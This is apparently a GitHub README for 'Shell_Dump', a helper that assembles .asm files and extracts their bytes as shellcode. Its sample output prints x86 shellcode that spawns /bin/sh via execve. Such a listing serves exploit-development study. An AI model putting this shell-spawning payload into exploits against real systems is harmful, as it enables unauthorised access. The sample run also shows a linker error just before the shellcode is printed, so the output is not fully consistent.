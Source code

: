# Shell_Dump
## Shell_Dump stpes
,,,              _____ _          _ _ _____                        
             /   __| |        | | |  __ \                       
            | (___ | |__   ___| | | |  | |_   _ _ __ ___  _ __  
             \___ \| '_ \ / _ \ | | |  | | | | | '_ ` _ \| '_ \ 
             ____) | | | |  __/ | | |__| | |_| | | | | | | |_) |
            |_____/|_| |_|\___|_|_|_____/ \__,_|_| |_| |_| .__/ 
                                                         | |    
                                                         |_|   
                      

[+]Create file Shell_Dump in [*] /root/Desktop/Shell_Dump/Shell_Dump


[X]Enter The File Name Example.asm : execve2.asm

[E]Please Enter The File Path Example.asm :/root/Desktop/test/

[@]Please Selcet x84 or x64 : x86


tThe Object File x86 is Generated  !! 

[W]The Linker Process Started [W]
 
ld: i386 architecture of input file `execve2.asm_obj' is incompatible with i386:x86-64 output

						{%}THE SHELLCODE{%}
					[@]++++++++++++++++++++++++++[@]


"\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89"
"\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80"
"\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4a\x41"
"\x41\x41\x41\x4b\x4b\x4b\x4b"

					[@]++++++++++++++++++++++++++[@]


[@] All Files will Found at  /root/Desktop/Shell_Dump/Shell_Dump {@}
   
              _____ _          _ _ _____                        
             /   __| |        | | |  __ \                       
            | (___ | |__   ___| | | |  | |_   _ _ __ ___  _ __  
             \___ \| '_ \ / _ \ | | |  | | | | | '_ ` _ \| '_ \ 
             ____) | | | |  __/ | | |__| | |_| | | | | | | |_) |
            |_____/|_| |_|\___|_|_|_____/ \__,_|_| |_| |_| .__/ 
                                                         | |    
                                                         |_|   
                      

,,,
